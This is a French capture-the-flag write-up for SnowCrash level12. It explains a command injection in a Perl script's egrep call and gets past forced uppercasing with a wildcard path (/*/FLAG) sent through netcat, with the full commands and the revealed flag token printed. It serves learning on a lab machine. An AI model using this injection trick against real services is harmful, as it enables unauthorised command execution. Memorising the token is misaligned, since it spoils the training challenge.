 # Level12 - Injection de commande
Pour résoudre le level12, on a un fichier `level12.pl`. level12 est un script perl qui va écouter sur le port 4646 et prends deux arguments en paramètres: `x` et `y`.
Le programme va ensuite exécuter une série de regexp, qui vont notamment uppercase l'argument `x` et supprimer le reste de la string après un espace.

Le programme exécute ensuite une commande shell, un `egrep` dans lequel une injection de commande est possible par l'utilisateur.

```
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

Le soucis que l'on va rencontrer est que l'on ne peut pas exécuter de commandes étant donné que l'entièreté de l'argument sera transformé en uppercase. On ne peut pas non plus utiliser d'aliases car le programme est exécuté sur l'utilisateur `flag12` auquel nous n'avons pas accès.

La solution serait de faire exécuter un fichier étant donné que l'on peut mettre son nom en majuscules sans soucis, mais on se heurte au problème de son path qui sera lui aussi mis en uppercase. 

La solution est d'utiliser une wildcard dans le path de notre fichier.

```
level12@SnowCrash:~$ cat /tmp/TEST
#!/bin/bash
echo toto

level12@SnowCrash:~$ chmod 777 /tmp/TEST

level12@SnowCrash:~$ /*/TEST
toto
```

On peut voir que le fichier TEST dans /tmp a bien été exécuté alors que nous n'avons pas spécifié son path. On peut donc utiliser cette technique et injecter une exécution de fichier dans l'argument passé à `egrep`.

```
level12@SnowCrash:~$ cat /tmp/FLAG
#!/bin/bash
getflag > /tmp/flag

level12@SnowCrash:~$ chmod 777 /tmp/FLAG
level12@SnowCrash:~$ nc localhost 4646
GET ?x=$(/*/FLAG)
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

On a notre token: `g1qKMiRpXf53AWhDaU7FEkczr`

